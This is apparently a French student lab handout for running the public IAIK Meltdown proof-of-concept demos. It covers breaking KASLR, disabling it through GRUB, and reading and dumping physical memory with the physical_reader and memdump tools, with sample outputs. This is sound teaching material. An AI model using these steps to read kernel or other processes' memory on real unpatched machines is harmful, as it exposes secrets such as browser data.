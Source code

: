 ```yaml
---
title: TP Meltdown
Author: Nathan Verdier, Chloe Morgond, Lucie Boudoule, Rémi Regnault, Thomas
geometry: margin=2cm
---
```


## Mot clé
taskset permet de crée un affiliété entre un processuce et un coeur.  
0x1 = coeur 1 du processeur (peut être remplacer par un autre) essayer d'en utiliser un qui sert par trop au moment ou vous le faite pour évité d'avoir des données parasite.  
Mémoire physique = 0xffff880000000000. Utile quand ont a pas désactivé kaslr.  


## Virtual Machine

## Prérequie
cloner ce dépot : https://github.com/IAIK/meltdown.git  
Et allez dans le dossier **meltdown**.

## Exo1
À partir du noyau Linux 4.12, KASLR (Kernel Address Space Layout Randomizaton) est actif par défaut. Cela signifie que l'emplacement du noyau (ainsi que la carte physique directe qui mappe l'intégralité de la mémoire physique) change à chaque redémarrage.

Cette démo utilise Meltdown pour divulguer la randomisation (secrète) de la carte physique directe. Cette démo nécessite les privilèges root pour accélérer le processus. Le document décrit une variante qui ne nécessite pas de privilèges root.

Exécuter cette commande:
```shell
make
taskset 0x1 ./test
```
si la commande marche vous verrez:
```
Expect: Welcome to the wonderful world of microarchitectural attacks
   Got: Welcome to the wonderful world of microarchitectural attacks
```

## Méthode 1 : Permet de connaitre ou est la mémoire virtuelle
**Cette méthode peut être très longue, puvant dépasser les 10/20mins d'attentes vois plus si ont a pas de chance**
```shell
sudo taskset 0x1 ./kaslr
```

Résultat de ce style:
`[+] Direct physical map offset: 0xffff880000000000`



## Méthode 2 : Pour exposer la mémoire et désactivé KASLR en ligne de commande linux il suffit de faire :
**Recommande ceette méthode**
```shell
sudo nano /etc/default/grub
```
**d'ajouter ceci:**
**Avant:**
GRUB_CMDLINE_LINUX="quiet splash"

**Après:**
GRUB_CMDLINE_LINUX="quiet splash nokaslr"

```shell
sudo update-grub
sudo reboot
```


## Exo2

Cette démo teste la fiabilité de la lecture de la mémoire physique. Pour cette démo, soit vous avez besoin du décalage de carte physique direct exo1, soit vous devez désactiver KASLR en spécifiant nokaslr dans la ligne de commande de votre noyau.

Construire et exécuter
Construisez et démarrez la fiabilité. Si KASLR est activé, le premier paramètre est le décalage de la carte physique directe. Sinon, le programme ne nécessite aucun paramètre.

**Avec mémoire virtuelle**
```shell
sudo taskset 0x1 ./reliability 0xffff880000000000
```

**Avec kaslr désactivé**
```shell
sudo taskset 0x1 ./reliability
```

Fonctionne si affiche quelque chose de similaire:
```shell
[+] Direct physical map offset: 0xffff880000000000
```


## Exo3
Cette démo lit la mémoire d'un processus différent en lisant directement la mémoire physique. Pour cette démo, soit vous avez besoin du décalage de carte physique direct (par exemple de la démo n°2), soit vous devez désactiver KASLR en spécifiant nokaslr dans la ligne de commande de votre noyau.

En principe, ce programme peut lire des adresses physiques arbitraires. Cependant, comme la mémoire physique contient beaucoup de données non lisibles par l'homme, nous fournissons un outil de test (secret), qui met en mémoire une chaîne lisible par l'homme et fournit directement l'adresse physique de cette chaîne.

```shell
sudo ./secret
```

```
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

Pendant que le programme secret est en cours d'exécution, démarrez physical_reader. Le premier paramètre est l'adresse physique imprimée par secret. Si vous n'avez pas désactivé KASLR, le deuxième paramètre est le décalage de la carte physique directe.

**Avec mémoire virtuelle**
```shell
taskset 0x1 ./physical_reader 0x390fff400 0xffff880000000000
```

**Avec kaslr désactivé**
```shell
taskset 0x1 ./physical_reader 0x390fff400
```

**Résultat:**
```shell
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```

## Exo 4

Cette démo vide le contenu de la mémoire. Comme les démos n°3 et n°4, il utilise la carte physique directe pour vider le contenu de la mémoire physique dans un format de type hexdump.

Encore une fois, comme la mémoire physique contient beaucoup de contenu non lisible par l'homme, nous fournissons un outil de test pour remplir de grandes quantités de mémoire physique avec des chaînes lisibles par l'homme.

Construire et exécuter
Pour la démo, exécutez d'abord memory_filler pour remplir la mémoire avec des chaînes lisibles par l'homme. Le premier argument est la quantité de mémoire (en gigaoctets) à remplir.

```shell
./memory_filler 9
```

Ensuite, exécutez l'outil memdump pour vider le contenu de la mémoire. Si vous avez déjà exécuté memory_filler, vous devriez voir des fragments de chaîne. Si vous utilisez Firefox ou Chrome avec plusieurs onglets en cours d'exécution, vous pouvez également voir des parties des sites Web ouvertes ou récemment fermées.

Le premier paramètre est l'adresse physique à laquelle le dump doit commencer (laisser vide pour démarrer au premier gigaoctet). Le deuxième paramètre est la quantité d'octets que vous souhaitez lire, pour tout lire, donnez -1. Si vous n'avez pas désactivé KASLR, le troisième paramètre est le décalage de la carte physique directe.



**Avec mémoire virtuelle**
```shell
taskset 0x1 ./memdump 0x240000000 -1 0xffff880000000000 # start at 9 GB
```

**Avec kaslr désactivé**
```shell
taskset 0x1 ./memdump 0x240000000 -1 # start at 9 GB
```

**Résultat:**
```shell
 240001c9f: | 00 6d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .m.............. |
 24000262f: | 00 7d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .}.............. |
 24000271f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 6e 20 75 | ............en u |
 24000272f: | 73 65 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 | ser space and ke |
 24000273f: | 72 6e 65 6c 57 65 6c 63 6f 6d 65 20 74 6f 20 74 | rnelWelcome to t |
 24000298f: | 00 61 72 79 20 62 65 74 77 65 65 6e 20 75 73 65 | .ary between use |
 24000299f: | 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 72 6e | r space and kern |
 2400029af: | 65 6c 42 75 72 6e 20 61 66 74 65 72 20 72 65 61 | elBurn after rea |
 2400029bf: | 64 69 6e 67 20 74 68 69 73 20 73 74 72 69 6e 67 | ding this string |
 240002dcf: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c8 | ................ |
 2400038af: | 6a 75 73 74 20 73 70 69 65 64 20 6f 6e 20 61 00 | just spied on a. |
 240003c8f: | 00 00 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ |
 24000412f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 74 73 2e | ............ets. |
 24000413f: | 2e 2e 57 65 6c 63 6f 6d 65 20 74 6f 20 74 68 65 | ..Welcome to the |
 2400042ff: | 00 00 00 00 00 00 00 00 00 6e 67 72 61 74 75 6c | .........ngratul |
 24000430f: | 61 74 69 6f 6e 73 2c 20 79 6f 75 20 6a 75 73 74 | ations, you just |
 24000431f: | 20 73 70 69 65 64 20 6f 6e 20 61 6e 20 61 70 70 |  spied on an app |
```


Toute la doc dispo ici [Doc Meltdown](https://github.com/IAIK/meltdown)
